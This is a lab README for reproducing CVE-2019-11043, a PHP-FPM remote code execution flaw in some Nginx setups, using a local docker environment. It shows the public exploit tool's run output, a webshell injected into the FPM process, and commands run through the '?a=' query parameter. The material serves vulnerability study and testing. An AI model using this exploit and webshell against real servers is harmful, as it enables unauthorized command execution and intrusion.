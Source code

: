 # PHP-FPM Remote Code Execution (CVE-2019-11043)

[中文版本(Chinese version)](README.zh-cn.md)

PHP-FPM is a FastCGI implementation for PHP. In PHP versions 7.1.x below 7.1.33, 7.2.x below 7.2.24 and 7.3.x below 7.3.11 in certain configurations of FPM setup it is possible to cause FPM module to write past allocated buffers into the space reserved for FCGI protocol data, thus opening the possibility of remote code execution.

This vulnerability was first discovered during the Real World CTF 2019 Quals (organized by Chaitin Tech). It affects Nginx servers with certain misconfigurations when working with PHP-FPM, the most common vulnerable configuration includes `location ~ [^/]\.php(/|$)` rules.

## References

- PHP Bug Report: <https://bugs.php.net/bug.php?id=78599>
- Technical Analysis: <https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/>
- Exploit Tool: <https://github.com/neex/phuip-fpizdam>

## Environment Setup

Start a vulnerable PHP-FPM 7.2.10 server with Nginx using the following command:

```
docker compose up -d
```

After the environment starts, you can access the default page at `http://your-ip:8080/index.php`.

## Vulnerability Reproduction

The vulnerability can be exploited using the tool from https://github.com/neex/phuip-fpizdam:

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

The successful exploitation will be indicated by the output above:

![](1.png)

After the initial exploitation, a webshell is injected into the PHP-FPM process. You can execute commands by visiting:

```
http://your-ip:8080/index.php?a=id
```

Example of successful command execution:

![](2.png)

### Important Notes

1. The vulnerability affects only some of the PHP-FPM child processes. If a command doesn't execute on the first try, make multiple attempts to reach an affected process.
2. The success of the exploit depends heavily on the specific Nginx configuration. The most common vulnerable configuration includes:
   - FastCGI processing enabled
   - PHP files processed through PHP-FPM
   - Specific location rules that split URLs in a vulnerable way
